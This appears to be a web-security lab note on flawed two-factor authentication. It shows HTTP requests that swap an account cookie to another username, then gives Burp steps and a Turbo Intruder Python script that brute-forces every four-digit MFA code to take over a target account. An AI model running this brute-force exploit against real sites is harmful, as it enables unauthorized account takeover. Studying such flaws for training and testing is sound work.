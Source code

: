 Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.
## Example Logic
A user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.
## Exploiting Example Flawed Logic
1. Notice that in `POST /login2` request, the `verify` parameter is used to determine which user account is being accessed.
2. Send that request to Burp Repeater, and change `POST` to `GET` and `verify` parameter to the target username. This ensures that a temporary 2FA code is generated for the target username.
3. Login with an account you can control. Then submit an invalid 2FA code.
4. Send `POST /login2` to Turbo Intruder (install via bApp).
5. In the pop-up, change the `verify` parameter to target username, add `%s` as value for the `mfa-code` parameter, then use the following code for the attack:
```python
# https://gist.github.com/bavlayan/aa7470b9692f05f29e6c8ea88e8bde85
def queueRequests(target, wordlists):
    engine = RequestEngine(
	    endpoint=target.endpoint,
        concurrentConnections=5,
        requestsPerConnection=100,
        pipeline=False,
		engine=Engine.BURP
    )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)
```
6. Start the attack. When finished, right click on the request and select **Show response in browser**. Copy the URL and load it in the browser.